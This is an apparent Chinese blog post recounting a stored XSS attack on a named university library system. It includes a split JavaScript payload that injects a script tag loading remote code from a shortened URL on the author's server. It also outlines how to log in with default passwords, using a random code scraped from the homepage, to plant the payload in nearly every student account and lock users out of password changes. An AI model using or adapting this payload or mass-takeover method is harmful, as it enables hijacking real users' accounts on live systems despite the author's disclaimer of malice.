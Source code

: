 ```yaml
---
layout: post
title: 图书馆系统的XSS漏洞
categories: demos
excerpt: 本想在一个输入框内植入所有代码，然而后端限制输入长度...
tags: XSS
---
```



![攻击环境]({{ site.storage }}assets/dist/img/2016-11-06 14-33-51屏幕截图.png)  
本想在一个输入框内植入所有代码，然而后端限制输入长度，故只能将代码切割，然后依次植入。  
因为各个脚本均在同一上下文环境中执行，故可以切。  
另，这里攻击脚本的链接可以使用短地址。  
植入的脚本如下，唯一的功能是引入我[服务器上的脚本](//dwz.cn/2qFuMT)，要干的事都在上面写。
{% highlight javascript %}
p=$('body')
a=$('<script>')
b='//dwz.cn'
b+='/2qFuMT'
a[0].src=b
p.append(a)
{% endhighlight %}

服务器的那个脚本一看就懂没啥好说，主要是关掉修改资料和密码的入口。  
大多人没修改默认密码，随便找个后端语言（比如python）跑一遍，全校学生的帐号基本上都会被植入。   

登录图书馆系统除了提交帐号密码外还要一个随机码。  
打开[首页](///al.lib.xidian.edu.cn/)，"登录"这一链接上就藏有随机码。  
看下登录时的post请求就知道，会同时提交这个随机码。  

我没有恶意，纯粹是为了学习哈，没有在脚本里面乱搞。  
请不要插入广告，做些恶趣味的事。
